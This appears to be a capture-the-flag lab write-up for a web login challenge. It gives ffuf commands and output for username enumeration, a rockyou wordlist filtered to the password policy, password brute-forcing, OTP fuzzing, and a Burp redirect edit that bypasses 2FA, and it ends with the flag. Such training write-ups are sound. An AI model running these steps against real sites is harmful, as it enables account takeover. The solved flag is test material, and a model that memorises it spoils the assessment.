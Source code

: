 ﻿## Scenario

You are tasked to perform a security assessment of a client's web application. For the assessment, the client has not provided you with credentials. Apply what you have learned in this module to obtain the flag.

![Pasted image 20250215140214.png](../../../IMAGES/Pasted%20image%2020250215140214.png)

Let's begin by checking the website:

![Pasted image 20250215140227.png](../../../IMAGES/Pasted%20image%2020250215140227.png)

We have a login functionality, let's check it out:

![Pasted image 20250215140248.png](../../../IMAGES/Pasted%20image%2020250215140248.png)

We can begin by registering a new account and checking the behavior in burp:

```ad-note
`test`:`test`
```

If we do those credentials, we get the following:


![Pasted image 20250215140815.png](../../../IMAGES/Pasted%20image%2020250215140815.png)


Now we know the password policy, it goes like this:

```ad-important
Password does not meet our password policy:
    Contains at least one digit
    Contains at least one lower-case character
    Contains at least one upper-case character
    Contains NO special characters
    Is exactly 12 characters long
```

Nice, let's register an account that goes like that:

```ad-note
`test`:`Passw0rd1123`
```

We can now test how it looks like when a valid username goes through the application:

![Pasted image 20250215155348.png](../../../IMAGES/Pasted%20image%2020250215155348.png)

We get `Invalid credentials`, what if we use an invalid user:

![Pasted image 20250215155424.png](../../../IMAGES/Pasted%20image%2020250215155424.png)

Now we get another error `Unknown username or password.`, once we know this, we can use ffuf in order to fuzz for valid usernames:

```
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown username or password." -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown username or password." -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.55.157:40800/login.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=test
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Unknown username or password.
________________________________________________

gladys                  [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 196ms]
```

We got a valid username:

```
gladys
```

Now, with the valid username, we can try to brute-force the password creating a custom wordlist matching the password policy, let's grep the `rockyou.txt` wordlist:

```
grep -P '^(?=.*[0-9])(?=.*[a-z])(?=.*[A-Z])[A-Za-z0-9]{12}$' /usr/share/wordlists/rockyou.txt > filtered_rockyou.txt
```

This will filter `rockyou` wordlist to match the password policy, now let's use ffuf:


```
ffuf -w filtered_rockyou.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials" -ic -c -t 200
```


After a while, we get this:

```
ffuf -w filtered_rockyou.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.55.157:40800/login.php
 :: Wordlist         : FUZZ: /home/samsepiol/filtered_rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=gladys&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid credentials
________________________________________________

dWinaldasD13            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 156ms]
```

We got credentials:

```ad-note
`gladys`:`dWinaldasD13`
```

If we try to log in, we can see the following:

![Pasted image 20250215160432.png](../../../IMAGES/Pasted%20image%2020250215160432.png)

We are redirected to `/2fa.php`, we need to bypass it, let's do the following:

Let's start by sending a request and checking the behavior:

![Pasted image 20250215160533.png](../../../IMAGES/Pasted%20image%2020250215160533.png)

If we send an invalid OTP, we get `Invalid OTP` error, knowing this, let's create a list of OTPs and fuzz:

```
seq -w 0 9999 > tokens.txt
```

```
ffuf -w tokens.txt -u http://94.237.55.157:40800/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=k0p7io2i4ucilmknkgt9m2ukd5" -d "otp=FUZZ" -fr "Invalid OTP" -ic -c -t 200
```

After a while, we are unable to get any OTP by fuzzing, which means, this is not the intended path to take, that's when logging into our `test` account is truly helpful, if we log in, we can see the following:

![Pasted image 20250215164723.png](../../../IMAGES/Pasted%20image%2020250215164723.png)

We are redirected to `/profile.php` instead of `/2fa.php`, that means that if we're able to change the `Location` to `/profile.php` on glady's account, we'd be able to bypass the 2fa code requirement, let's do it:

![Pasted image 20250215164842.png](../../../IMAGES/Pasted%20image%2020250215164842.png)

`Do intercept -> Response to this request`:

![Pasted image 20250215164923.png](../../../IMAGES/Pasted%20image%2020250215164923.png)

Now, change `Location` to `/profile.php`:

![Pasted image 20250215165100.png](../../../IMAGES/Pasted%20image%2020250215165100.png)

Forward and `Do intercept -> Response to this request` again:

![Pasted image 20250215165141.png](../../../IMAGES/Pasted%20image%2020250215165141.png)

We get a GET request, we need to intercept this one too and change status code to `200` and `location` to `/profile.php` again:

![Pasted image 20250215165225.png](../../../IMAGES/Pasted%20image%2020250215165225.png)

After forwarding the request, this happens:

![Pasted image 20250215165242.png](../../../IMAGES/Pasted%20image%2020250215165242.png)

We get access to glady's account and got the flag:

```
HTB{d86115e037388d0fa29280b737fd9171} 
```


![Pasted image 20250215165319.png](../../../IMAGES/Pasted%20image%2020250215165319.png)


